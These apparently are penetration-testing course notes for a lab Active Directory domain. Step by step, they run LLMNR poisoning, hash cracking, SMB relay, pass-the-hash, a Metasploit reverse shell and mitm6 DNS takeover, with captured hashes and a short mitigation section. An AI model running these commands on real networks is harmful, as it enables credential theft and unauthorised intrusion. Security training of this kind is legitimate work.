








# AD - Initial Attack Vectors

## [LLMNR Poisoning](https://tcm-sec.com/llmnr-poisoning-and-how-to-prevent-it/)

➡️ **LLMNR** (Link-Local Multicast Name Resolution) protocol (NetBIOS / NBT-NS successor) allows hosts to perform name resolution for hosts on the same local network without requiring a DNS server.

- When a host DNS query fails -> the host broadcast an LLMNR query across the local network
  - An attacker can listen for these queries and respond to them with its IP to redirect traffic, leading to relay attacks and credentials theft (username & NTLM hash)


### Responder

➡️ [Responder](https://github.com/lgandx/Responder) - LMNR, NBT-NS and MDNS poisoner

- HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server
- Supports NTLMv1/NTLMv2/LMv2 with Extended Security NTLMSSP
- Built-in HTTP and HTTPS auth servers
- Built-in MSSQL auth server
- ... more ...

```bash
sudo responder -I eth0 -dPv
```

- Login to `THEPUNISHER` VM with `fcastle` user and try to open WinExplorer and navigate to `\\192.168.31.131` (Kali IP)
- An event occurs and triggers LLMNR
  - victim's username and password NTLMv2 hash received




### NTLMv2 Crack

- Save the hash into a `hashes.txt` file and try to crack it

```bash
mkdir -p ~/tcm/peh/ad-attacks
cd ~/tcm/peh/ad-attacks

nano hashes.txt
# Paste the entire hash here
# e.g.
fcastle::MARVEL:326a2463163fdc3c:F7960DB37F933089E086898EC14E6C78:01010000000000008056A8C737E1DA012259B2C298FAD80B00000000020008004400530035004E0001001E00570049004E002D0058004B00300049004C0054004B0049004B004200560004003400570049004E002D0058004B00300049004C0054004B0049004B00420056002E004400530035004E002E004C004F00430041004C00030014004400530035004E002E004C004F00430041004C00050014004400530035004E002E004C004F00430041004C00070008008056A8C737E1DA0106000400020000000800300030000000000000000100000000200000904D97995337C0F1A56FEF978A82D6E80397E74EE021151E600DB10AC038DF7B0A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00330031002E003100330031000000000000000000

# Run hashcat
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt --show
```



---

## [SMB Relay](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)

➡️ **SMB** (Server Message Block) is a network file sharing protocol. Common in Windows, it allows shared access to files and printers. However, when unsecured and paired with **NTLM** authentication, it becomes a target to relay attacks.

- Attackers intercept and relay SMB authentication attempts to another server, impersonating the user and exploiting SMB due to lack of SMB signing, gaining unauthorized access
- Requirements:
  - SMB signing disabled or not enforced
  - Relayed user must have local admin credentials
  - Credentials cannot be relayed to the same machine

**Identify the hosts without SMB signing**.

```bash
nmap --script=smb2-security-mode.nse -p445 192.168.31.90-93 -Pn
```

```bash
-------------------------------------------------------------
Nmap scan report for hydra-dc.MARVEL.local (192.168.31.90)
Host is up (0.00034s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

-------------------------------------------------------------
Nmap scan report for spiderman.MARVEL.local (192.168.31.92)
Host is up (0.00045s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

-------------------------------------------------------------
Nmap scan report for thepunisher.MARVEL.local (192.168.31.93)
Host is up (0.00038s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

- SMB signing is not enforced (default setting for Windows workstations)

```bash
# Check on Windows - cmd
reg query HKLM\System\CurrentControlSet\Services\LanManServer\Parameters | findstr /I securitysignature
```


- Create a `targets.txt` file with the gathered targets

```bash
echo -e "192.168.31.92\n192.168.31.93" > targets.txt
```

- Setup Responder configuration file

```bash
sudo nano /etc/responder/Responder.conf
```

```bash
# Switch Off SMB and HTTP
SMB = Off
...
HTTP = Off
...
```

```bash
# Run Responder
sudo responder -I eth0 -dPv
```



### ntlmrelayx.py

➡️ [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) - This module performs the SMB Relay attacks to many target protocols (SMB, MSSQL, LDAP, etc).

- Setup the NTLM relay
- (`ntlmrelayx.py` is older version installed via [PimpMyKali](https://github.com/Dewalt-arch/pimpmykali/blob/master/pimpmykali.sh))

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

- Login to `THEPUNISHER` VM with `fcastle` user and try to open WinExplorer and navigate to `\\192.168.31.131` (Kali IP)
- An event occurs and triggers LLMNR, is captured by responder, passed to `ntlmrelayx` with relays the credentials to the targets in our `targets.txt` file


- The local SAM hashes are dumped from `SPIDERMAN` and automatically saved into the `192.168.31.92_samhashes.sam` file

```bash
# SPIDERMAN - 192.168.31.92 SAM Hashes

Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:60d1d3dc4291fca471e146c798f8d603:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```

- Try to start an interactive shell via `ntlmrelayx.py`

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
# trigger the event in the Windows VM

[...]
[*] Authenticating against smb://192.168.31.92 as MARVEL\fcastle SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
```

```bash
# Bind to the the SMB shell
nc 127.0.0.1 11000
```



```bash
# Execute commands

sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"

# trigger the event in the Windows VM
```


### msfconsole - shell access

```bash
msfconsole
```

```bash
search psexec
use exploit/windows/smb/psexec

set payload windows/x64/meterpreter/reverse_tcp
set rhosts 192.168.31.93
set smbdomain MARVEL.local
set smbuser fcastle
set smbpass Password1
show targets # proceed with Automatic

run
```


```bash
background
sessions
session 1
```

```bash
# Do the hash attack

# Set SMB user to a local user
set smbuser administrator
unset smbdomain
set smbpass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
run
```


### psexec.py - shell access

➡️ [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)

```bash
# Login with password
psexec.py MARVEL.local/fcastle:'Password1'@192.168.31.93
psexec.py MARVEL.local/fcastle:@192.168.31.93

# Login with hash
psexec.py administrator@192.168.31.93 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```



---

## IPv6 DNS Takeover

### mitm6

➡️ [mitm6](https://github.com/dirkjanm/mitm6) - exploits the default Windows config to take over the default DNS server by replying to DHCPv6 messages, providing the victim with a link-local `IPv6` address and setting the attacker's host as default DNS server

- Setup the relay attack

```bash
sudo ntlmrelayx.py -6 -t ldaps://hydra-dc.MARVEL.local -wh fakewpad.MARVEL.local -l lootme
```

```bash
# Run in another dedicated terminal
sudo mitm6 -d MARVEL.local
```

- Reboot `THEPUNISHER` VM and check the `ntlmrelayx.py` output
- Go to `~/tcm/peh/ad-attacks/lootme` directory
  - the files contain data about domain users, computers, groups, policies, etc



- Login to `THEPUNISHER` using the `MARVEL\administrator` and check the successful attack
  - User `bkVKFfXduD` has been created



### Mitigation

**Mitigate IPv6 poisoning**:

- Block DHCPv6 traffic and router advertisements in Windows Firewall using Group Policy
- Use specific rules:
  - (Inbound) Core Networking - `DHCPv6-In`
  - (Inbound) Core Networking - `ICMPv6-In`
  - (Outbound) Core Networking - `DHCPv6-Out`

**Disable WPAD if not in use**:

- Use Group Policy and disable `WinHttpAutoProxySvc` service

**Mitigate LDAP/LDAPS relaying**:

- Enable both LDAP signing and LDAP channel binding

**Protect administrative accounts**:

- Consider marking accounts as sensitive or adding them to the Protected Users group to prevent delegation and impersonation

---

## Pass-Back Attack

Check this article for more information about the attack - [How to Hack Through a Pass-Back Attack: MFP Hacking Guide](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)

- **MFPs** (Multi-Function Peripherals - **printers**, copiers) are often overlooked targets but can be exploited for serious security breaches
- **Pass-Back Attack** - involves redirecting MFP's LDAP authentication to a malicious server to capture user credentials
- Tools like [PRET](https://github.com/RUB-NDS/PRET) can be used to access MFP settings.
- High-risk, low-effort - exploiting MFPs can yield sensitive data with minimal effort.



---

